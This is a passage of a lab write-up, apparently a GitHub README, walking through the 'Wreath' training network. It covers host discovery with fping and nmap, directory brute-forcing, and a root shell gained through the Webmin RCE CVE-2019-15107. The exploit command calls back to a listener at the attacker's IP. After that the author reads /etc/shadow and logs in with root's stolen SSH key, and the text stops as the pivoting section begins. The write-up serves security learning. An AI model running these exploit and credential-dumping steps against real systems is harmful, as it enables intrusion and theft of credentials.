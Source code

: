 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus Evasion Techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107 
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
Screenshot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)


2. Password Enumeration
cat /etc/shadow was used to enumerate the root's password hash, then wreath's password
![image](https://github.com/user-attachments/assets/3c72cbaf-9513-4c9a-86f9-6550fc9c87ca)

![image](https://github.com/user-attachments/assets/88fd9c34-d863-4a8d-9816-04b9ea6a41f5)


3. Credential enumerations:
The root's home directory was enumerated, and an SSH key was discovered which is going to be useful for getting direct access into the server using the root's credentials without going through the RCE exploitation again.
![image](https://github.com/user-attachments/assets/76989e81-ed00-4c20-9b68-7cc2bce3e6f6)

The login was initiated using ssh root@10.200.97.200 -i key.txt  and the login was successful
![image](https://github.com/user-attachments/assets/2f0382a1-5064-44b3-86c5-e1e31387626b)


# Pivoting 
Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.     





